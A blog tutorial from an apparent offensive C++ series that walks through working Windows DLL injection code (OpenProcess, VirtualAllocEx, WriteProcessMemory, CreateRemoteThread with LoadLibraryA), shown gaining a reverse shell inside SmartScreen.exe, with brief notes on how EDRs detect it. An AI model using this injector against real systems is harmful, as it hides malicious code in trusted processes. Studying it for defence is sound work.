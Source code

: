 ```yaml
---
title: DLL injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]

pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/beaedd97-aaee-470c-a38d-08a1abce682a
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


For this second post of offensive C++ we are going to look at the DLL injection technique. This technique, like Remote process Injection, has been known for many years and we are not really going to re-invent the wheel here. Even so, it is very important to understand how it works as it will be useful for complex techniques.

The DLL injection technique consists, roughly speaking, of loading an external DLL into a remote process and making it execute its contents.

Before I start talking about the logic behind the technique and how we can program it using C++ I will show a practical example to get a better context of what we are talking about.

In the following image you can see how, after executing the .exe that performs the DLL injection, I obtained a reverse shell whose payload is executed under the Windows Defender SmartScreen.exe process. It should be noted that the tests are performed with AV disabled, you would have to do a couple more things to bypass the defender x). 
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/9fd1c477-c80c-430b-9796-05657e1d8b98)

We can take a look at the memory address obtained by reserving memory and see that the absolute path to our DLL is stored there.
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/dd7fcc35-1366-4b5b-8342-e9e03acc01f3)

Now that we have quickly seen the technique in action, let's see how we can program it in C++.

This first part is identical to the Remote process injection technique, we need to open a Handle to be able to interact with the process in which we want to perform the injection. In this case I still use the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API.
```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

The next step is also almost identical to the one we executed in the first post, the only difference is that this time we cannot calculate the length of the variable using sizeof as we would be reserving a smaller space than we need as you can see in the following image:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/08c0a340-0bd3-48e0-a7f9-4bfa182698d6)

Instead, we have to use **strlen() + 1** (+1 because we have to count the terminating character of the string, the null byte).
```c++
const char* dllPath = argv[2];

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
	printf("%s Cannot allocate memory for the dll\n", err, bAddress);
	return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully in %p\n", ok, bAddress);
```

We write the path of the DLL in memory using the function [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and strlen() to define the length of the variable to write.
```c++
if(WriteProcessMemory(hProcess, bAddress, dllPath, strlen(dllPath) + 1, NULL) == 0){
	printf("%s Cannot write on memory, error %d", err, GetLastError());
	return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

And we come to the last step, this last step is quite different from the one we did in the previous post. Recall that the idea of this technique is that the target process loads a DLL and then executes its contents. For this we can use the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function. 

One of the mistakes we could make is the following:
```c++
LoadLibraryA(bAddress);
```
Some may ask, what's the problem?, you said that we need the LoadLibraryA function to load the DLL. That is correct, what is not correct is that, by doing it this way, we are **loading it into the process of the executable itself**, not into the process we want to infect. 

To inject into the remote process we need to **create a new Thread** in the target process and then have **the Thread call LoadLibraryA**. One way to do this would be to define an [LPTHREAD_START_ROUTINE](https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/lpthread-start-routine-function-pointer) which is just a pointer to a function. This presents us with a new challenge, we need the memory address of the LoadLibraryA function.

If we look at the documentation for the **LoadLibraryA** function we can see that it is located inside the **Kernel32.dll** DLL:

![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/77612b93-a83b-4f53-bf5c-484faa049250)

And how can we call a function inside a DLL?, easy, just as we can obtain a Handle from a process, we can also obtain it from a DLL using the function [GetModuleHandleA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea) :
```c++
Handle hKernel32 = GetModuleHandleA("Kernel32.dll");
```

Once we have obtained the Handle we need to find the memory address of the LoadLibraryA function, for that, we can make use of the [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) function which does exactly that:
```c++ 
LPVOID loadlibAddr = GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA");
```

All this integrated in the code would look like this:
```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA"), bAddress, 0, NULL);

if(hRemote == NULL){
	printf("%s Cannot get the handle to the remote process\n", err);
	return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hProcess);
CloseHandle(hRemote);

return EXIT_SUCCESS;
```

With the code finished we would only have to compile it and we would get a binary capable of executing DLL injection. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github.

Before I finish I would like to go back to the starting point of the post. The execution example:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/9fd1c477-c80c-430b-9796-05657e1d8b98)

If we take a closer look at the SmartScreen process we can find our DLL loaded correctly:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/011d3ce5-3c39-4104-b8b2-298c0dc48fb5)

A interesting thing that I discovered while playing with this technique is that if you change the name of the DLL once it has been loaded into the process, the name of the injected DLL also changes, which I found curious since the injection method is through a physical path, not a memory address. 

Another thing we can observe in the image is that, as it is not a signed DLL, it appears as *UNVERIFIED* which could make it easily detected by EDRs. 

Another easy way to detect this technique would be to look at its import table:
![image](https://github.com/Krypteria/Offensive_CPP/assets/55555187/f3d1b450-f81e-4513-9a2e-174c8612bbf0)

The appearance of certain windows API calls could raise suspicions. As always, here is a post from [Mitre](https://attack.mitre.org/techniques/T1055/001/) where the IOCs of this technique are analysed in more depth.

As an addition to this post I would like to explain briefly how we can create our custom DLL. It is really very simple, just as executables have a start function that is defined by the "main", DLLs have their own start function called "DllMain". In the following [link](https://learn.microsoft.com/es-es/windows/win32/dlls/dllmain) to the Windows documentation you can get a template of that function and be able to create your own DLLs.

See you in the next post :) 